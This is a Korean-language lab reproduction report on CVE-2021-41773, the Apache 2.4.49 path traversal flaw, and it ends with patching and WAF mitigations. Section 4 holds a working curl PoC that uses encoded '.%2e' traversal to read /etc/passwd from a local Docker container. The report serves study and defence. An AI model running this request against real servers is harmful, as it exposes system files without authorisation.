

# CVE-2021-41773 (Apache HTTP Server Path Traversal)

# 1. 취약점 요약
- 설명: Apache HTTP Server 2.4.49 버전에서 발생하는 경로 탐색 취약점이다. URL 경로 정규화 과정의 결함으로 인해, 공격자가 보안 필터를 우회하여 접근이 제한된 서버 호스트의 민감한 시스템 파일을 읽을 수 있다.
- Risk Score: 7.5 (High)
- Reproducibility: 100%

# 2. 환경 구성
외부 의존성을 최소화하기 위해 공식 베이스 이미지를 사용하여 일관된 환경을 구축했다. 터미널에 아래 명령어를 입력하여 Docker 컨테이너를 실행한다.
```
docker compose up -d
(참고: docker-compose.yml 파일 내부에 command 속성을 활용하여, 컨테이너 실행 시 sed 명령어로 Require all granted 설정이 자동 적용되도록 인프라를 코드로 구현했다.)
```

# 3. 취약 조건
Apache HTTP Server 버전이 2.4.49 환경이어야 한다.
httpd.conf 설정 파일에서 특정 디렉토리(예: /cgi-bin/)에 대해 Require all granted (접근 허용) 설정이 적용되어 있어야 한다.


# 4. 재현 절차 및 PoC 코드
터미널에서 curl 명령어를 사용하여 .%2e (URL 인코딩된 ../) 패턴을 통해 상위 디렉토리로 이동을 시도한다.

### PoC 명령어: curl -v --path-as-is http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd


# 5. 실행 결과
공격이 성공하여 서버 호스트의 민감한 계정 파일(/etc/passwd) 내용이 HTTP 200 OK 응답과 함께 그대로 노출된 것을 객관적으로 확인할 수 있다.


# 6. 대응 방안
- 취약점이 패치된 Apache HTTP Server 2.4.51 이상의 최신 버전으로 즉시 업데이트한다.

- 웹 방화벽(WAF)을 통해 .%2e 와 같은 비정상적인 디렉토리 탐색 패턴이 포함된 HTTP 요청을 사전에 차단한다.

